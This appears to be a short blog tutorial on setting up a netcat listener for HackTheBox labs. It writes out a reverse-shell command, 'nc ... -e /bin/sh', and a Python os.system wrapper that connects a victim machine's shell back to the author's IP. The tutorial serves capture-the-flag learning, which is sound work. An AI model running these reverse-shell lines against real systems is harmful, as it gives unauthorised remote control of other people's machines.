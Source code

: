 ```yaml
---
title: "Using a Netcat Listener"
date: 2020-09-24 12:35:00 +0800
categories: [tutorial]
tags: [linux]
toc: true
---
```


## Introduction

When doing HackTheBox, you're eventually going to need to set up a netcat listener. When you have a listener open on a port, it waits for information to come to that port you are on and establishes a connection to it. This is especially useful when you are able to spawn a shell to a port on the victim machine because you can use netcat to direct the shell to your listener. Here is how you do it.

## Step 1: Start the Listener on your Local Machine

The first thing you need to do is to open the listener on your machine. You will need to pick a high port that is not commonly used. Something in the 4000-9000 range is what I usually go for.

Once you choose your port, simply type the command below:

```
nc -lnvp 9001
```

This will start a listener on your machine on port 9001.

## Step 2: Call to the listener from the victim machine

You will need a few things in order to do this step:
1) The ability to run ``netcat`` with elevated priveledges.
2) The port number that you chose in step 1.
3) Your host machine's IP Address.

Here is the command you would use:

```
nc 10.10.15.76 9001 -e "/bin/sh"
```

Oftentimes, you will use a python script that has escalated privledges in order to call out to your listener. Here is a sample script that can be used:

```
import os

os.system('nc 10.10.15.76 9001 -e "/bin/sh"')
```

In both of these cases, ``10.10.15.76`` is the IP address of my personal machine and ``9001`` is the port I am using.


I find that often you will have to do this step through Python. 


## Step 3: Interact with the Shell

If you did everything correctly, you should now be able to issue commands in the terminal where you typed the command from part 1. Use simple commands such as ``whoami`` or ``ls`` to see who and where you are so that you can keep moving through everything. 

















